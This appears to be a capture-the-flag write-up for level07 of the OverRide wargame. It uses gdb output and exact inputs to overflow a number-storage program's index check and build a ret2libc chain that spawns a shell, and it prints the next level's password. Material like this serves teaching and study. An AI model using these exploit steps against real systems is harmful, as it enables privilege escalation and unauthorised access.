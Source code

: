 # level07

This program is a simple number storage system. It stores and reads number in an array `unsigned int data[100]`. But we cannot store a number with `index % 3 == 0`.

## Step 1. Calculate offset to overwrite `eip`
```assembly
   0x08048924 <+513>:	lea    eax,[esp+0x24]
   0x08048928 <+517>:	mov    DWORD PTR [esp],eax
=> 0x0804892b <+520>:	call   0x80486d7 <read_number>
```
```
level07@OverRide:~$ gdb -q level07
(gdb) break *0x0804892b
Breakpoint 1 at 0x804892b
(gdb) run
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: read

Breakpoint 1, 0x0804892b in main ()
(gdb) info registers eax
eax            0xffffd544	-10940
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704,
  eip at 0xffffd70c
(gdb) print 0xffffd70c - 0xffffd544
$1 = 456
```
We set a breakpoint before calling `read_number` function, then get offset `456` by calculating `eip - eax`. For a 32 bit integer array, `eip` locates in `data[114]`.

## Step 2. Find a way to set data[114]
```
level07@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble store_number" level07
Dump of assembler code for function store_number:
[...]
   0x08048666 <+54>:	call   0x80485e7 <get_unum>
   0x0804866b <+59>:	mov    DWORD PTR [ebp-0xc],eax
[...]
   0x080486c2 <+146>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080486c5 <+149>:	shl    eax,0x2
   0x080486c8 <+152>:	add    eax,DWORD PTR [ebp+0x8]
   0x080486cb <+155>:	mov    edx,DWORD PTR [ebp-0x10]
   0x080486ce <+158>:	mov    DWORD PTR [eax],edx
   0x080486d0 <+160>:	mov    eax,0x0
   0x080486d5 <+165>:	leave
   0x080486d6 <+166>:	ret
End of assembler dump.
```
We cannot set `data[114]` directly because `114 % 3 == 0`. The disassembly code shows that left shift 2 position is analogous to multiply by 4. So our goal here is to find a number who satisfies the equation `114 << 2 = X << 2`. We can find three numbers `1073741938, 2147483762 and 3221225586` by flipping bit 30 and bit 31, but `3221225586 % 3 == 0`.

## Step 3. Find ret2libc address
```
level07@OverRide:~$ gdb -q level07
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) break main
Breakpoint 1 at 0x8048729
(gdb) run
Starting program: /home/users/level07/level07

Breakpoint 1, 0x08048729 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.

system:  0xf7e6aed0 => 4159090384
exit:    0xf7e5eb70 => 4159040368
/bin/sh: 0xf7f897ec => 4160264172
```

## Step 4. Input numbers into system
```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/$(whoami)/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
